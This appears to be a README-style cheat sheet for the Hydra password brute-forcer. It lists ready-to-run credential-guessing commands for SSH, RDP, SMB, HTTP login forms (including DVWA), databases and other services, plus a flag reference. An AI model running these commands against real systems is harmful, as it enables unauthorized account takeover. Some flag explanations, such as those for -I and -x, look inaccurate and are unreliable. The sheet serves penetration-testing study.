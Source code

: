 # Hydra


## Installation

```bash
    apt install hydra
```
## Visit Hydra's Github
#### Go to [hydra github](https://github.com/vanhauser-thc/thc-hydra) page
---
## Documentattion
#### Read [Hydra Manual](../manual/hydra.txt)
---

# Hydra command with example

| Services   | Hydra Commands |
|-----------|--------------|
| RDP       | hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 |
| SSH       | hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V |
| SMB       | hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V |
| FTP       | hydra -l root -P passwords.txt -f ftp://10.0.2.5 -V |
| HTTP Basic Auth | hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V |
| HTTP Post | sudo hydra -l admin -P pass.txt 192.168.182.129  http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -V|
|HTTP get|sudo hydra -l admin -P pass.txt 192.168.182.129 http-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -V|
| IMAP      | hydra -l root -P passwords.txt -f imap://10.0.2.5 -V |
| MySQL     | hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V |
| POP3      | hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V |
| Redis     | hydra -P password.txt redis://10.0.2.5 -V |
| Rexec     | hydra -l root -P password.txt rexec://10.0.2.5 -V |
| Rlogin    | hydra -l root -P password.txt rlogin://10.0.2.5 -V |
| RSH       | hydra -L username.txt rsh://10.0.2.5 -V |
| RTSP      | hydra -l root -P passwords.txt <IP> rtsp |
| SMTP      | hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V |
| SMTP (SSL, Port 587) | hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V |
| Telnet    | hydra -l root -P passwords.txt [-t 32] <IP> telnet |
| VNC       | hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt -s <PORT> <IP> vnc |
---
# Parameter and Usage
| Parameter | Explanation |
|-----------|------------|
| `-l`      | Specifies a single username to use in the attack. |
| `-L`      | Specifies a file containing multiple usernames to use. |
| `-p`      | Specifies a single password to use in the attack. |
| `-P`      | Specifies a file containing multiple passwords to try. |
| `-s`      | Specifies a custom port for the service instead of the default one. |
| `-f`      | Stops the attack when the first valid credential is found. |
| `-V`      | Enables verbose mode, showing each attempt made. |
| `-t`      | Specifies the number of parallel threads to speed up attacks (default: 16). |
| `-u`      | Tries the next username only after all passwords for the current one fail. |
| `-o`      | Saves the output results to a file. |
| `-M`      | Specifies a file with multiple target IPs. |
| `-w`      | Sets the wait time between login attempts. |
| `-S`      | Forces SSL mode for encrypted connections. |
| `-v`      | Enables verbose mode (less detailed than `-V`). |
| `-I`      | Ignores failed login attempts (useful when accounts lock after failures). |
| `-R`      | Resumes a previously interrupted attack. |
| `-x`      | Generates a custom password list with defined lengths and characters. |

